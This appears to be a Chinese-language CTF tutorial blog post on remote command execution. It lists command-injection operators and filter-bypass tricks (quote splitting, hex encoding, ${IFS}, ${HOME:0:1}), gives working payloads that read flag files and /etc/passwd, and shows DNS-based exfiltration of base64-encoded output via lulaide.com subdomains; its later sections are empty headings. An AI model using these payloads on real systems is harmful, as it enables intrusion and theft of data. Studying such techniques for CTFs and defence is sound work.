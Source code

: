+++
author = "Lulaide"
title = "RCE 常见类型及绕过"
date = "2025-03-23"
description = "RCE常见攻击点和利用方法"
tags = [
    "渗透",
    "Linux"
]
categories = ["教程&文档"]
image = "image.png"
+++
# RCE 常见类型及绕过
![](image.png)
## 命令注入（Command Injection）
常见命令连接词:
- `;` (分号): 允许您按顺序执行多个命令。
- `&&` (与): 仅当第一个命令成功（返回零退出状态）时执行第二个命令。
- `||` (或): 仅当第一个命令失败（返回非零退出状态）时执行第二个命令。
- `&` (后台执行): 在后台执行命令，允许用户继续使用 shell。
- `|` (管道): 将第一个命令的输出作为第二个命令的输入。
常见 Shell 特殊符号:
- `&` : 
    - 1. 在后台执行命令，允许用户继续使用 shell。
    - 2. 特殊文件描述符，如 `&1` 标准输出。
    - 3. `&&` 仅当第一个命令成功（返回零退出状态）时执行第二个命令。
- `$` : 
    - 1. 变量替换,例如 `echo $HOME`
    - 2. 算术扩展 `echo $((1+2))`
    - 3. 命令替换 `echo $(cat flag)`
    - 4. `${}` 进行高级的参数扩展，如字符串截取、默认值、模式替换等
	提供默认值：`${var:-default}`
	字符串长度：`${#var}`
	子串截取：`${var:offset:length}`

- `` ` `` (反引号): 执行命令并将输出作为结果，例如
```bash
echo `date`
```
> 反引号和`$(cmd)`都能进行命令替换，shell先会执行和反引号内或括号内的命令，再执行外层命令

### cat 绕过(命令绕过)
- 使用 `echo` 读取
```bash
echo $(<filename)
```
- `base64`
```
base64 flag | base64 -d
```

例题
![](image-4.png)
Payload:
```bash
0.0.0.0 && base64 flag_11213284764042.php | base64 -d
```
![](image-5.png)
### 命令关键词绕过
#### 使用符号分割命令
```bash
c"a"t f"la"g
ca""t fl""ag
w\ho\am\i
who$()ami
who$@ami
```
#### 十六进制编码绕过字符过滤
快速转换:
```bash
echo -n "/etc/passwd" | xxd -p | sed 's/../\\x&/g'
``` 
- `echo -e`绕过
```bash
echo -e "\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64"
```
示例
```bash
cat $(echo -e "\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64")
```
```bash
$(echo -e "\x63\x61\x74") flag
```
- `xxd -r -ps`绕过
```bash
$(xxd -r -ps <(echo 636174)) flag
```

### 斜线绕过
- `${HOME:0:1}`
```bash
cat ${HOME:0:1}etc${HOME:0:1}passwd
```
- `tr` 字符集替换
```bash
echo . | tr '!-0' '"-1'
```
```bash
cat $(echo . | tr '!-0' '"-1')etc$(echo . | tr '!-0' '"-1')passwd
```
例题
![](image-6.png)
Payload:
```bash
0.0.0.0 && cat flag_is_here${HOME:0:1}flag_327162425030231.php
```
![](image-7.png)
### 空格绕过
- 使用 `${IFS}`
- 使用 `<` 输入重定向
- 如果能回现报错，就可以使用`$(<filename)`
![](image-3.png)

例题
![](image-1.png)
Payload: 
```bash
0.0.0.0&&cat${IFS}flag_24157125720131.php
```
```bash
0.0.0.0&&cat<flag_24157125720131.php
```
![](image-2.png)

### 综合命令注入练习
![](image-8.png)
先把 `ls` 的结果保存在文件中
```bash
$(ls>1)
```
读取 `ls` 的输出
```bash
$(base64${IFS}1).lulaide.com
```
![](image-9.png)
![](image-10.png)
读取目录下的内容
```bash
$(ls${IFS}fla""g_is_here>1)
$(base64${IFS}1).lulaide.com
```
![](image-11.png)
直接读取 `flag`
```bash
$(base64${IFS}f""lag_is_here${HOME:0:1}fl""ag_123591964811506.php).lulaide.com
```
![](image-12.png)
![](image-13.png)
## 命令行参数注入
命令行的一些概念:
- 选项
通常以短横线（-）或双横线（--）开头，如 -l、--help。
- 参数
不带 - 前缀的字符串，或者也包含在选项中作为参数（例如 -f filename 中的 filename）。
## 代码注入（Code Injection）

## 服务器端模板注入（SSTI）

## 反序列化漏洞

## 文件包含漏洞（LFI/RFI）